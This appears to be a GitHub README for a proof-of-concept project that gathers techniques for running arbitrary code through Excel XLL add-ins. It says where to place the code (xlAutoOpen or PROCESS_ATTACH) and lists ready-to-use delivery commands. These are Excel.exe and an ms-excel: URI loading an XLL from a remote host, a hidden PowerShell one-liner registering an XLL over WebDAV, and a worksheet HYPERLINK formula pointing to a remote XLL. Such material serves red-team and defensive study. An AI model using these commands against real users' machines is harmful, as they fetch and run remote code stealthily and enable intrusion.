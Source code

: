# xllpoc
## Code Exec via Excel
A small project that aggregates community knowledge for Excel XLL execution, via xlAutoOpen() or PROCESS_ATTACH. Not a new concept.

### Credit   
- EdParcell: https://github.com/edparcell/HelloWorldXll  
- MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx  
- Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52  
- Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ  
- MWR Labs: https://labs.mwrinfosecurity.com/blog/add-in-opportunities-for-office-persistence/
- @SubTee

### Getting Exec
Put your code in either,
```
dllmain.cpp
PROCESS_ATTACH

XLL_POC.cpp
xlAutoOpen()
```
#### Some various execution techniques 
Excel
```
Excel.exe http://foo.com/xll.xll
```
uri
```
ms-excel:ofe|u|http://foo.com/xll.xll
```
Everyones favourite oneliner 
```
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"
```
Embedded in the Worksheet (xll cant be found)
```
=HYPERLINK("http://foo.com/xll.xll", "CLICK")
```

